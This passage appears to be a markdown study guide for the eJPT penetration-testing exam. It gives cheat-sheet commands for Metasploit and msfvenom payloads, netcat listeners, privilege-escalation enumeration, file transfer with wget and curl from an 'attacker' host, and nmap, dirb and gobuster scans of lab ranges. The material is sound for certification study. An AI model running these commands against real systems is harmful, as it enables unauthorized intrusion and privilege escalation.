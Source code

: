 ```markdown
│ set payload payload_name         # Choose payload       │
│ exploit                          # Execute exploit      │
└─────────────────────────────────────────────────────────┘

┌─ Payload Generation ────────────────────────────────────┐
│ msfvenom -p payload LHOST=ip LPORT=port -f format       │
│ msfvenom -l payloads | grep windows  # List payloads    │
│ nc -nlvp port                    # Netcat listener      │
└─────────────────────────────────────────────────────────┘

## 4. Post-Exploitation (15% - 5 questions)
**Key Skills Tested:**
- Privilege escalation techniques
- File transfer methods  
- Basic persistence mechanisms
- Information gathering from compromised systems

**Most Important Commands:**
┌─ Privilege Escalation ──────────────────────────────────┐
│ sudo -l                          # Check sudo perms     │
│ find / -perm -4000 2>/dev/null   # Find SUID binaries   │
│ cat /etc/passwd                  # User enumeration     │
│ ps aux                           # Running processes    │
└─────────────────────────────────────────────────────────┘

┌─ File Transfer ─────────────────────────────────────────┐
│ python3 -m http.server 8080     # HTTP server           │
│ wget http://attacker/file       # Download files        │
│ curl -O http://attacker/file    # Alternative download  │
└─────────────────────────────────────────────────────────┘

## 5. Reporting (5% - 2 questions)
**Key Skills Tested:**
- Evidence collection and documentation
- Vulnerability severity assessment
- Basic report writing principles
```

### Essential eJPT Lab Practice

#### Recommended Practice Sequence

**Week 1-2: Information Gathering Mastery**
```bash
# Daily Practice Routine (2 hours/day)
# Target: HackTheBox Starting Point machines

# Host Discovery Practice
nmap -sn 10.10.10.0/24
arp-scan -l
netdiscover -r 10.10.10.0/24

# Port Scanning Variations
nmap -sS target_ip                    # Stealth scan
nmap -sT target_ip                    # TCP connect scan  
nmap -sU --top-ports 100 target_ip   # UDP scan
nmap -sV -O target_ip                 # Version and OS detection

# Service Enumeration Deep Dive
# HTTP/HTTPS
whatweb http://target
dirb http://target /usr/share/dirb/wordlists/common.txt
gobuster dir -u http://target -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```